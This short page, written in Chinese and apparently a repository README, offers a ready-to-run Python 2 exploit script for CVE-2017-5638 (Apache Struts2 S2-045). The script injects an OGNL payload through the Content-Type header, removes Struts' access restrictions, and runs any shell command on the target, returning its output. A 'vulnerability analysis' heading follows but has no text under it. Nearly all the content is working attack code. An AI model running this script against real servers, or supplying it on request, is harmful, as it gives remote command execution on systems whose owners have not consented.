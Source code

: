 python2 下运行，可以使用 2to3 转换

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-
 
import urllib2
import httplib
 
def exploit(url, cmd):
    payload = "%{(#_='multipart/form-data')."
    payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
    payload += "(#_memberAccess?"
    payload += "(#_memberAccess=#dm):"
    payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
    payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
    payload += "(#ognlUtil.getExcludedPackageNames().clear())."
    payload += "(#ognlUtil.getExcludedClasses().clear())."
    payload += "(#context.setMemberAccess(#dm))))."
    payload += "(#cmd='%s')." % cmd
    payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
    payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
    payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
    payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
    payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
    payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
    payload += "(#ros.flush())}"
 
    try:
        headers = {'User-Agent': 'Mozilla/5.0', 'Content-Type': payload}
        request = urllib2.Request(url, headers=headers)
        page = urllib2.urlopen(request).read()
    except httplib.IncompleteRead, e:
        page = e.partial
 
    print(page)
    return page
 
 
if __name__ == '__main__':
    import sys
    if len(sys.argv) != 3:
        print("[*] struts2_S2-045.py <url> <cmd>")
    else:
        print('[*] CVE: 2017-5638 - Apache Struts2 S2-045')
        url = sys.argv[1]
        cmd = sys.argv[2]
        print("[*] cmd: %s\n" % cmd)
        exploit(url, cmd)
```

## 漏洞分析

